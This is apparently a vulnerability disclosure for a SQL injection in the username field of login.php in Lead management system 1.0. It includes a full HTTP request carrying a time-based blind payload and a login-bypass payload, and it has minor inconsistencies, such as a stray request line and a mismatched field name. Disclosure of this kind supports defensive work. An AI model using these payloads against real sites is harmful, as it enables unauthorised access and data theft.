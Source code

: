 
# Lead management system - login.php 'username' SQL inject

#### Exploit Title: Lead management system - login.php 'username' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

#### Software Link:https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

#### Version: Lead management system 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Lead management system does not filter the content correctly at the "login.php /username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /medicine_details.php HTTP/1.1
POST /login.php HTTP/1.1
Host: 192.168.67.10:8091
Content-Length: 97
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.10:8091
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.10:8091/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g1diqn5ba9l5npktcpl5jc287t
Connection: close

username=1' AND (SELECT 6691 FROM (SELECT(SLEEP(5)))slLY) AND 'lrcD'='lrcD&password=123456&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in login php

![image](https://github.com/joinia/webray.com.cn/tree/main/lead_management_system/images/login.png)

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

![image](https://github.com/joinia/webray.com.cn/tree/main/lead_management_system/images/code.png)

3、Use payload "sleep (5)" for blind SQL injection.It is found that the time blind injection is successful

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/sourcecodesql.png)

4、We can also construct a payload for universal password login

payload:`username=1'or 1=1 #&password=123456&login=`

![image](https://github.com/joinia/webray.com.cn/tree/main/lead_management_system/images/loginwithanyuser.png)

4、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

![image](https://github.com/joinia/webray.com.cn/tree/main/lead_management_system/images/sqlmap.png)

